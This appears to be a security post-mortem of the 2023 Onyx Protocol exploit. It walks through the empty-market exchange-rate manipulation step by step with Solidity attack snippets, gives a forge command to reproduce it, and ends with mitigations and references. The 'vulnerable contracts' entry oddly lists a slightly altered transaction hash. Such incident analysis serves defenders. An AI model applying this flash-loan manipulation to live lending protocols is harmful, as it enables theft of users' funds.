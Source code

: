 # Onyx Protocol
- **Type:** Exploit
- **Network:** Ethereum
- **Total lost:** ~2.1M
- **Category:** Manipulation Empty Market
- **Vulnerable contracts:**
- - [0xf7c21600452939a81b599017ee24ee0dfd92aaaccd0a55d02819a7658a6ef635e](https://etherscan.io/tx/0xf7c21600452939a81b599017ee24ee0dfd92aaaccd0a55d02819a7658a6ef635e)
- **Tokens Lost**
- - 513,987 USDC
- - 249,534 USDT
- - 81.32   PAXG
- - 103,657 DAI
- - 13.12   WBTC
- - 10,082  LINK
    Effectively swapped for ETH $2.1M worth.
- **Attack transactions:**
- - [0xf7c21600452939a81b599017ee24ee0dfd92aaaccd0a55d02819a7658a6ef635](https://etherscan.io/tx/0xf7c21600452939a81b599017ee24ee0dfd92aaaccd0a55d02819a7658a6ef635)

- - Deployer EOA: [0x085bdff2c522e8637d4154039db8746bb8642bff](https://etherscan.io/address/0x085bdff2c522e8637d4154039db8746bb8642bff)

- **Attack Block:**: 18476513
- **Date:** Nov 01, 2023 
- **Reproduce:** `forge test --match-contract Exploit_Onyx_Protocol -vvv`

## Step-by-step Overview

1. Setup (Get Flash Loan)
   - Flash loan 4000 WETH from Aave
   - Swap WETH for PEPE tokens
   - Create attack contract to manipulate market

2. Market Manipulation (Empty Market Attack)
   - Mint small amount of oPEPE (1e18)
   - Redeem almost all oPEPE (leave 2 wei)
   - This creates minimal share tokens while keeping market active

3. Price manipulation
   - Transfer large amount of PEPE to oPEPE market
   - This inflates the exchange rate since supply is minimal
   - Enter markets to enable borrowing

4. Exploit Inflated Collateral
   - Use inflated oPEPE as collateral
   - Borrow nearly all ETH from oETH market
   - Exchange rate manipulation makes this possible

5. Recover donated funds
   - Exploit rounding error to withdraw donated PEPE
   - Calculate exact amount needed for liquidation
   - Redeem underlying PEPE tokens

6. Liquidation
   - Liquidate borrower position with 1 wei ETH
   - This triggers seizing of collateral
   - Mint precise amount of tokens to reset market
   - Redeem remaining collateral
   - Repay flash loan with profits


## Detailed Description

1. Gets 4000 WETH from Aave V3 and swaps it for PEPE tokens to prepare for the attack.

```solidity
    AaveV3.flashLoanSimple(address(this), address(WETH), 4000 * 1e18, bytes(""), 0);
    Router.swapExactTokensForTokens(WETH.balanceOf(address(this)), amountOut, path, address(this), block.timestamp + 3600);
```

2. Creates minimal share tokens while maintaining an active market by minting and immediately redeeming.

```solidity
    oPEPE.mint(1e18);
    oPEPE.redeem(oPEPE.totalSupply() - 2); // Leave 2 wei
```

3. Donate large amount of PEPE to artificially inflate the exchange rate due to minimal supply.

```solidity
    PEPE.transfer(address(oPEPE), PEPE.balanceOf(address(this)));
    address[] memory oTokens = new address[](1);
    oTokens[0] = address(oPEPE);
    Unitroller.enterMarkets(oTokens);
```

4. Uses inflated oPEPE as collateral to borrow almost all ETH from the oETH market.

```solidity
    oETHER.borrow(oETHER.getCash() - 1);
    (bool success,) = msg.sender.call{value: address(this).balance}("");
```
5. Exploits rounding error to withdraw donated PEPE and calculates precise liquidation amounts.

```solidity
    oPEPE.redeemUnderlying(redeemAmt);
    (,,, uint256 exchangeRate) = oPEPE.getAccountSnapshot(address(this));
    (, uint256 numSeizeTokens) = Unitroller.liquidateCalculateSeizeTokens(address(oETHER), address(oPEPE), 1);
```

6. Liquidates position and resets market state through precise token minting.

```solidity
    uint256 mintAmount = (exchangeRate / 1e18) * numSeizeTokens - 2;
    oPEPE.mint(mintAmount);
    // Repeats process for other tokens (USDC, USDT, PAXG, DAI, WBTC, LINK)
    WETH.approve(address(AaveV3), amount + premium);
```

The attack was executed through three main contracts:

Exploit_Onyx_Protocol: Main contract handling flash loan and token swaps
Attacker1Contracts: Handles the initial PEPE token manipulation drain ETH from the Onyx 
Attacker2Contracts: Replicates the attack for other tokens (USDC, USDT, PAXG, DAI, WBTC, LINK)


## Possible mitigations

For new  markets should consider including and preserving the order of these steps: 
1. Set CF to zero
2. List market
3. Mint cTokens
4. Set CF to non-zero.


## Sources and references

- [Tx process](https://etherscan.io/tx/0xf7c21600452939a81b599017ee24ee0dfd92aaaccd0a55d02819a7658a6ef635)
- [PeckShield Inc. Alert's Twitter](https://x.com/peckshield/status/1719664641109037551)
- [BlockSec Phalcon](https://x.com/Phalcon_xyz/status/1719697319824851051)

